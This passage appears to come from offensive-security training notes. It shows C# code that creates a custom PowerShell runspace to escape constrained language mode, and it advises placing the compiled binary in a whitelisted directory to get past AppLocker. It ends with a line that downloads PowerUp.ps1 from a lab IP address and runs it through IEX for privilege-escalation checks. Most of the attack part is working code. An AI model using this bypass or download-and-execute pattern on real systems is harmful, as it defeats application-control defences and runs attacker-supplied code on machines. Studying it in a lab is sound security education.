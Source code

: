 we could code a C# application that creates a custom PowerShell runspace and
executes our script inside it.

```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace Bypass
{
	class Program
	{
		static void Main(string[] args)
		{
			Runspace rs = RunspaceFactory.CreateRunspace();
			rs.Open();
			
			PowerShell ps = PowerShell.Create();
			ps.Runspace = rs;
			
			String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-		File -FilePath C:\\Tools\\test.txt";
			ps.AddScript(cmd);
			ps.Invoke();
			rs.Close();
		}
	}
	
}
```

Unfortunately, Visual Studio can not locate System.Management.Automation.Runspaces, to resolve this, we must manually add the assembly reference. First we’ll right-click the References folder in the Solution Explorer and select Add Reference…. In most cases, the reference can be found in existing assemblies, but in this particular case, we’ll need to specify a file location
instead.

To do this, we’ll select the Browse… button at the bottom of the window and navigate to the `C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35` folder where we will select System.Management.Automation.dll.


Copy the compiled binary to whitelisted directory if blocked by applocker and execute!

We can run any powershell command, such as download additional script with:

```
String cmd = "(New-Object
System.Net.WebClient).DownloadString('http://192.168.119.120/PowerUp.ps1') | IEX;Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";

```

